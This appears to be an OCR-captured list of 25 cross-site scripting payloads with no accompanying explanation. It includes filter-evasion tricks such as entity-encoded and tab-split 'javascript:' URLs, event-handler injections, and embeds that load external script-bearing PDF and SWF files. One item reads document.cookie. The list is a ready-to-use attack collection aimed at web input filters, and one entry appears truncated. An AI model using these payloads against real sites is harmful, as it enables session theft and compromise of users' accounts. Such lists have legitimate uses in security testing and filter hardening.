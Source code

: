 
1) <a href="javascript&colon;\u0061&#x6C;&#101%72t&lpar;1&rpar;"><button>
 
2) <div onmouseover='alert&lpar;1&rpar;'>DIV</div>
 
3) <iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
 
4) <a href="jAvAsCrIpT&colon;alert&lpar;1&rpar;">X</a>
 
5) <embed src="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf"> ​
 
6) <object data="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">​
 
7) <var onmouseover="prompt(1)">On Mouse Over</var>​
 
8) <a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>
 
9) <img src="/" =_=" title="onerror='prompt(1)'">
 
10) <%
 
11) <script src="data:text/javascript,alert(1)"></script>
 
12) <iframe/src \/\/onload = prompt(1)
 
13) <iframe/onreadystatechange=alert(1)
 
14) <svg/onload=alert(1)
 
15) <input value=<><iframe/src=javascript:confirm(1)
 
16) <input type="text" value=``<div/onmouseover='alert(1)'>X</div>
 
17) http://www.<script>alert(1)</script .com
 
 
18) <iframe src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29></iframe>​
 
19) <svg><script ?>alert(1)
 
20) <iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>
 
21) <img src=`xx:xx`onerror=alert(1)>
 
22) <object type="text/x-scriptlet" data="http://jsfiddle.net/XLE63/ "></object>
 
23) <meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>​
 
24) <math><a xlink:href="//jsfiddle.net/t846h/">click
 
25) <embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>​
 